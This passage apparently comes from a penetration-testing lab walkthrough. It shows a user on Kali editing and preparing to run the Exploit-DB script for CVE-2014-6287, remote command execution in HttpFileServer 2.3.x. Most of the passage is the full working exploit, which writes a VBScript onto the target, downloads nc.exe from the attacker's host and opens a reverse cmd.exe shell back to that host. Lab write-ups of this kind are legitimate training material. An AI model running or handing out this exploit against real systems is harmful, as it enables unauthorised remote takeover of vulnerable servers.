 Let's edit the file and execute it.
```
hippoeug@kali:~$ nano 39161.py
```
We must change the local listening IP address (our kali machine) and the port.

Overall, this is how our Python script looks after changing the IP and port to 80.
```
#!/usr/bin/python
# Exploit Title: HttpFileServer 2.3.x Remote Command Execution
...
# Version: 2.3.x
# Tested on: Windows Server 2008 , Windows 8, Windows 7
# CVE : CVE-2014-6287
# Description: You can use HFS (HTTP File Server) to send and receive files.
#	       It's different from classic file sharing because it uses web technology to be more compatible with today's Internet.
#	       It also differs from classic web servers because it's very easy to use and runs "right out-of-the box". Access your remote files, over the network. It has been successfully tested with Wine under Linux. 
 
#Usage : python Exploit.py <Target IP address> <Target Port Number>

#EDB Note: You need to be using a web server hosting netcat (http://<attackers_ip>:80/nc.exe).  
#          You may need to run it multiple times for success!

import urllib2
import sys

try:
	def script_create():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+save+".}")

	def execute_script():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe+".}")

	def nc_run():
		urllib2.urlopen("http://"+sys.argv[1]+":"+sys.argv[2]+"/?search=%00{.+"+exe1+".}")

	ip_addr = "10.10.x.x" # Local IP address
 	local_port = "80" # Local Port number
	vbs = "C:\Users\Public\script.vbs|dim%20xHttp%3A%20Set%20xHttp%20%3D%20createobject(%22Microsoft.XMLHTTP%22)%0D%0Adim%20bStrm%3A%20Set%20bStrm%20%3D%20createobject(%22Adodb.Stream%22)%0D%0AxHttp.Open%20%22GET%22%2C%20%22http%3A%2F%2F"+ip_addr+"%2Fnc.exe%22%2C%20False%0D%0AxHttp.Send%0D%0A%0D%0Awith%20bStrm%0D%0A%20%20%20%20.type%20%3D%201%20%27%2F%2Fbinary%0D%0A%20%20%20%20.open%0D%0A%20%20%20%20.write%20xHttp.responseBody%0D%0A%20%20%20%20.savetofile%20%22C%3A%5CUsers%5CPublic%5Cnc.exe%22%2C%202%20%27%2F%2Foverwrite%0D%0Aend%20with"
	save= "save|" + vbs
	vbs2 = "cscript.exe%20C%3A%5CUsers%5CPublic%5Cscript.vbs"
	exe= "exec|"+vbs2
	vbs3 = "C%3A%5CUsers%5CPublic%5Cnc.exe%20-e%20cmd.exe%20"+ip_addr+"%20"+local_port
	exe1= "exec|"+vbs3
	script_create()
	execute_script()
	nc_run()
except:
	print """[.]Something went wrong..!
	Usage is :[.] python exploit.py <Target IP address>  <Target Port Number>
	Don't forgot to change the Local IP address and Port number on the script"""
```
Let's try it out.
